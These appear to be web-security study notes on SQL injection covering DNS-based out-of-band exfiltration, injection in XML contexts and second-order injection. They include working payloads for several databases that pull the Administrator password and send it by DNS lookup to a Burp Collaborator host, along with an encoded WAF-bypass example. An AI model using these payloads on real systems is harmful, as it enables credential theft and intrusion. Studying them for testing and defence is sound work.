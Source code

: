 ## Extracting Data From DNS Lookup 
-  Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:
	```
	'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
	```
- This input reads the password for the Administrator user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password:
`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`
- scan the defined insertion points and and use the Collaborator for the payload.
- after sending to Repeater, modify the payload using Inspector and the respective pre-defined payloads: 
	```Burp 
	Oracle 	    SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT                YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
	Microsoft 	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
		        create OR replace function f() returns void as $$
				declare c text;
				declare p text;
				begin
	PostgreSQL  SELECT into p (SELECT YOUR-QUERY-HERE);
	            c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
	            execute c;
	            END;
	            $$ language plpgsql security definer;
	            SELECT f();
	MySQL 	    The following technique works on Windows only:
	            SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
	```

# SQLi In Different Contexts
- can be used in any controllable input that is processed as a SQL query as opposed to just injecting the payload at the query string.
```
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```
- In this example, we obfuscate the attack to bypass any defence mechanisms such as WAF
	- by encoding or escaping characters in the injected query, we can bypass the security (usually in weak implementations)
	- we use an XML escape sequence (XML base SQLi) to encode the character `S` in `SELECT`
	- this will be decoded in the server-side before passing to the SQL interpreter
# Second-Order SQLi 
- First-order SQL injection occurs when the application processes user input from an HTTP request and incorporates the input into a SQL query in an unsafe way. 
- Second-order SQL injection occurs when the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability occurs at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into a SQL query in an unsafe way. For this reason, second-order SQL injection is also known as stored SQL injection. 
- Second-order SQL injection often occurs in situations where developers are aware of SQL injection vulnerabilities, and so safely handle the initial placement of the input into the database. When the data is later processed, it is deemed to be safe, since it was previously placed into the database safely. At this point, the data is handled in an unsafe way, because the developer wrongly deems it to be trusted. 